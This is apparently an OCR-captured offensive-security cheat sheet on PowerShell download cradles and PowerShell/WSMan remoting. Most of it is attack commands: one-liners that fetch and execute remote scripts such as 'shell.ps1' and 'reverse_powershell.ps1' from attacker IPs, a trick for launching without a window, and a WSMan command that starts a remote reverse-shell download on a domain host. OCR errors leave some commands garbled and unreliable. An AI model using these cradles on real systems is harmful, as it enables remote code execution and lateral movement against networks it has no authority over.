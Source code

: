   - `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
  - `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
  - `powershell -EncodedCommand <Base64EncodedCommand>`
  - `$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://example.com/example.ps1');sleep 5;$resp=$ie.Document.Body.innerHTML;$ie.quit();iex $resp`
  - `iex (iwr 'http://example.com/example.ps1')`
  - `$h=New-Object -ComObject Msxm12.XMLHTTP;$h.open('GET', 'http://192.168.230.1/evil.psi1' ,$false);$h.send();iex $h. responseText`
  - Craft Download Cradles: <https://github.com/danielbohannon/Invoke-CradleCrafter>
    ```powershell
    START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/shell.ps1')
    # _/B prevents creation of a new window_
    ```
    ```powershell
    $wr [System.NET.WebRequest]::Create("http://192.168.230.1/evil.psi")
    $r = $wr.GetResponse()
    IEX ([System.IO.StreamReader] ($r.GetResponseStream())) .ReadToEnd()```
    ```

## Powershell Remoting

- Enabled by default from Windows Server 2012
  - `Enable-PSRemoting -Force`
- Admin privileges are required to connect
- `Get-Command -CommandType cmdlet -ParameterName computername`
- `Get-Command -CommandType cmdlet | Where-Object {$_Parameters.Keys --contains 'ComputerName' -and $_Parameters.Keys --contains 'Credential' -and $_Parameters.Keys --notcontains 'Session'}`
- WSMAN (WebServicesManagement) Protocol (WinRM)
  - WinRM is Microsoft’s implementation of WSMAN
  - Port 5985, 5986
  - If target is in a workgroup, attacker's machine should trust target machine to send out credentials:
    - Set-Item  WSMan:\localhost\client\trustedhosts -Value *
  - `Invoke-Command -ScriptBlock {$env:ComputerName} -ComputerName example -Credential dominName/userName `
    - `-FilePath`
  ```powershell
  Invoke-WSManAction -Action Create -ResourceURI wmicimv2/win32_process -ValueSet @{commandline="powershell.exe -c Get-Process"} - ComputerName domainpc –Credential
  ```
  ```powershell
  Invoke-WSManAction -Action Create -ResourceURI wmicimv2/win32_process -ValueSet @{commandline="powershell.exe -c iex ((New-Object Net.Webclient).DownloadString('http://192.168.254. 1/reverse_powershell.ps1'))"} -ComputerName domainpc
  ```
- WSMAN vs PowerShell Remoting vs WMI
  - WSMAN
    - Firewall friendly
    - Use HTTP and HTTPS ports
    - Syntax is complex
    - Returns immutable objects
    - Can be used with non-Windows machines
  - Powershell Remoting
    - Firewall friendly
    - Easy use
    - Returns immutable objects
  - WMI
    - Not firewall friendly
    - Not NAT friendly
    - Complex
    - Returns editable objects
- One to One
